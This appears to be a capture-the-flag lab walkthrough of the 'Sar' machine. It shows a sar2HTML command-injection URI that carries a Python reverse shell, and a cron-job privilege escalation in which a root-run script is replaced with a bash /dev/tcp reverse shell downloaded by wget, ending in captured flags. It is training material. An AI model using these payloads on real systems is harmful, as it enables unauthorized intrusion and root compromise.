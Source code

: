 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```



## Reconnaissance

### Nmap scan

Let's perform an `nmap` scan to find the open ports and the services running on the open ports.

```
$ nmap -Pn -p- -A -T5 192.168.179.35
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-10 13:15 EDT
Warning: 192.168.179.35 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.179.35
Host is up (0.067s latency).
Not shown: 64075 closed tcp ports (conn-refused), 1458 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:40:be:13:cf:51:7d:d6:a5:9c:64:c8:13:e5:f2:9f (RSA)
|   256 8a:4e:ab:0b:de:e3:69:40:50:98:98:58:32:8f:71:9e (ECDSA)
|_  256 e6:2f:55:1c:db:d0:bb:46:92:80:dd:5f:8e:a3:0a:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 319.29 seconds
```

There are two open ports:

| Port | Service |
| ---- | ------- |
| 22   | ssh     |
| 80   | http    |

### Directory enumeration

Let's perform some directory brute forcing using `ffuf` to check what web directories are present.

```
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://192.168.179.35/FUZZ
________________________________________________

.hta                    [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 65ms]
.htpasswd               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 67ms]
.htaccess               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 791ms]
index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 64ms]
phpinfo.php             [Status: 200, Size: 95464, Words: 4716, Lines: 1170, Duration: 118ms]
robots.txt              [Status: 200, Size: 9, Words: 1, Lines: 2, Duration: 66ms]
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 67ms]
:: Progress: [4614/4614] :: Job [1/1] :: 598 req/sec :: Duration: [0:00:18] :: Errors: 0 ::
```

Let's visit the `robots.txt` page. There's usually something useful there.

![1](https://github.com/user-attachments/assets/6d51d15a-54a7-4127-9843-1d6e0b4560fb)

The `sar2HTML` page is being blocked for crawlers. That is why it did not show up in the `ffuf` scan. 

Let's visit the page.

![2](https://github.com/user-attachments/assets/caf167bf-bfa6-4c50-9fcb-bda6f94fe510)

&nbsp;

## Exploitation

### Searching for relevant exploit.

We can look up exploits for sar2HTML version `3.2.1`.
[This](https://www.exploit-db.com/exploits/47204) exploit shows up:

![3](https://github.com/user-attachments/assets/233e3976-00af-41cd-9de9-098ffd8186b8)

Let's check the exploit using the following URI:

```
192.168.179.35/sar2HTML/index.php?plot=;ls
```

![4](https://github.com/user-attachments/assets/a27a511b-071a-465f-ac79-c29c960bcabf)

### Obtaining a reverse shell

In order to obtain a reverse shell, we need to first set up a `nc` listener.

```
$ nc -nlvp 9999                     
listening on [any] 9999 ...
```

Now, we can enter the following URI:

```
192.168.179.35/sar2HTML/index.php?plot=;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.234",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

Let's check back on our listener.

```
$ nc -nlvp 9999                     
listening on [any] 9999 ...
connect to [192.168.45.234] from (UNKNOWN) [192.168.179.35] 34638
bash: cannot set terminal process group (975): Inappropriate ioctl for device
bash: no job control in this shell
www-data@sar:/var/www/html/sar2HTML$ 
```

&nbsp;

## Post Exploitation

### local.txt

```
www-data@sar:/var/www/html/sar2HTML$ cat /home/local.txt
cat /home/local.txt
e6f25e304acccc7b3b947383c66f2aef
```

### Privilege Escalation

#### Checking scheduled Cron jobs

We can check if there are any Cron jobs scheduled by displaying the contents of the `/etc/crontab` file.

```
www-data@sar:/var/www/html/sar2HTML$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh
```

The `./finally.sh` file is executed every 5th minute with `root` privileges.

We can verify this using [crontab guru](https://crontab.guru/).

![5](https://github.com/user-attachments/assets/49a4c19a-6d43-435f-812a-b897baa8ee60)

Unfortunately, we cannot edit the `./finally.sh` file.
Let's check what it is doing.

```
www-data@sar:/var/www/html$ cat finally.sh
cat finally.sh
#!/bin/sh

./write.sh
```

So it execute another file called `./write.sh`.

#### Exploiting scheduled Cron job

Let's delete this `./write.sh` file.

```
www-data@sar:/var/www/html$ rm write.sh
rm write.sh
```

Now, in our attacker machine we can create another `./write.sh` file containing a reverse shell script.

```bash title="write.sh"
#!/bin/bash  

bash -i >& /dev/tcp/192.168.45.234/9998 0>&1
```

Next we can transport the file to the target.

```
www-data@sar:/var/www/html$ wget http://192.168.45.234:8000/write.sh
wget http://192.168.45.234:8000/write.sh
--2024-08-10 23:29:05--  http://192.168.45.234:8000/write.sh
Connecting to 192.168.45.234:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 60 [text/x-sh]
Saving to: 'write.sh'

     0K                                                       100% 15.0M=0s

2024-08-10 23:29:05 (15.0 MB/s) - 'write.sh' saved [60/60]
```

Let's make the file executable.

```
www-data@sar:/var/www/html$ chmod +x write.sh
chmod +x write.sh
```

Now, we have to set up a `nc` listener and wait.

```
$ nc -nlvp 9998                  
listening on [any] 9998 ...
```

After some time the Cron job will be executed and we will obtain a reverse shell with `root` privileges.

```
$ nc -nlvp 9998                  
listening on [any] 9998 ...
connect to [192.168.45.234] from (UNKNOWN) [192.168.179.35] 54846
bash: cannot set terminal process group (3286): Inappropriate ioctl for device
bash: no job control in this shell
root@sar:/var/www/html# 
```

### proof.txt

```
root@sar:/var/www/html# cd /root
cd /root
root@sar:~# 
```

```
root@sar:~# cat proof.txt
cat proof.txt
c07959ab9321d3dd66064bddacc012ea
```
